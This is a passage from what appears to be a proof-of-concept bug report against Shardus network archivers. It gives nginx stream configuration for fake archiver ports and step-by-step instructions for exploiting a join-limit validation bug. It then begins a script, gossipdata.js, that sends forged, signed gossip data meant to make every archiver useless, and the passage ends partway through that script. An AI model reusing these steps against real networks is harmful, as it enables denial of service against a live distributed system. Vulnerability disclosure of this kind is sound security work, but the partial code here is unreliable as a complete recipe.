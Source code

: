 ```
    listen 23505;
proxy_pass stream_archiver;
  }
  server {
    listen 23506;
proxy_pass stream_archiver;
  }
  server {
    listen 23507;
proxy_pass stream_archiver;
  }
  server {
    listen 23508;
proxy_pass stream_archiver;
  }
  server {
    listen 23509;
proxy_pass stream_archiver;
  }
}
```

8. Now we have our fake archivers. execute `node join.js` to generate some public/private key and send join requests to network. When you see *max limit reached* in console you can press Ctrl+C to terminate remaining requests.

9. now if you open `http://localhost:4000/archivers` in your browser, you can see many archivers are joined as active to the network.

Untill now we showed how archiver join limit validation bug can not prevent archivers from joining the network.
Now we are going to use this bug and make all archivers useless.

1. Open `http://localhost:4000/archivers` in your browser, copy two of our fake archiver publicKeys which have different port number, crate a file and name it `gossipdata.js` with following text. Replace `pkList` array items with those two publicKeys. Also open `http://localhost:4000/cycleinfo/1` in your browser and copy first item of `cycleInfo` array, and replace default value of `cycle` object in following file with it.

*gossipdata.js*
```javascript
const fetch = require('node-fetch')
const { readFileSync } = require('fs')
const { sign } = require('./sign')
const { computeCycleMarker } = require('./build/Data/Cycles.js')
const { Utils } = require('@shardus/types')

const pkList = [
  '865b1c5cdc6df064c17fc397827d449bbaec61c926939ede1138604216741bae',
  '865b1c5cdc6df064c17fc397827d449bbaec61c926939ede1138604216741bae',
]

const archiverPort = 4000

async function sendGossipData(keypair) {
  const cycle = {
    activated: [],
    activatedPublicKeys: [],
    active: 18,
    apoptosized: [],
    appRemoved: [],
    archiverListHash: '3008f0303a3a929a3dc628a8548a18d5ec7d3f65938a0f860257cfaa458cf9fe',
    counter: 37,
    desired: 300,
    duration: 30,
```